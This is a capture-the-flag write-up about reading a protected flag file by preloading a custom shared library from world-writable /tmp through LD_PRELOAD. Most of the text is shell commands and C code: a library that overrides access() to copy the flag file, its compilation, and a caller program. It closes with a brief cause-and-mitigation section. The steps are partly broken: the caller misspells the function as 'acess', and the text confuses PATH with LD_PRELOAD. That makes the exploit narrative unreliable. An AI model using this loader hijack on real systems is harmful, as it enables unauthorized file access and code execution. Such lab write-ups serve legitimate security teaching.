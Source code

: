 # CTF4

The main goal of this exploit was to, using environmental variables, be able to access a file that, other way, would have denied access. The main strategy here is to, instead of simply creating a script to read the file that has the flag, we create a library which is defined in the environmental variable $PATH. With that, we can capture the flag.

## Step 1. The environmental variables

The first step is to preload the future library in the list of environmental variables.

```SHELL
echo 'LD_PRELOAD=/tmp/lib PATH=/tmp' > env 
```

We will also create the file that will have the output in the tmp folder and give it all the permission.

```SHELL
touch output.txt 
chmod 777 output.txt 
```

## Step 2. Creation of the library

The second step is to create the library itself (also in the tmp folder). This library is responsible for acessing the file and put the output (the flag) in another file (output.txt).

```SHELL
cat > lib.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int access ()
{
    system("/bin/cat /flags/flag.txt > /tmp/output.txt");
    return 0;
}
```

This command will create a file lib.c that will access the file and print it to other file

### Step 2.1. The Compilation

Now, this file that we created have to be compiled as a library and give it all the permissions:

```SHELL
gcc -fPIC -g -c lib.c 
gcc -shared -o lib lib.o -lc
chmod 777 lib
```

## Step 3. The Execution

Now, with the library that have all the permissions, we need to execute it. For that, we need to create a c script that call this library and, with that, be able to get the flag.

```SHELL
cat > exec.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main ()
{
    acess();
    return 0;
}
```

Now it is time to compile and execute:

```SHELL
gcc exec.c -o exec
./exec
```
## Step 4. The Output

And the final output in the output.txt is:

**flag{c26b13e1f19414fd9a50a0e37197382c}**


## The Explored Vulnerability

- The vulnerability that was exploited is the fact that the /tmp folder had very open privileges (such that any process could write to it). This allowed the attacker to create a library in /tmp that could be preloaded into other programs, giving the attacker the ability to execute arbitrary code.

## What could be used to avoid this Vulnerability

- To make this system more secure, the programmer should restrict the privileges on the /tmp folder so that only authorized users can write to it. Additionally, the programmer should avoid using libraries in /tmp unless absolutely necessary.

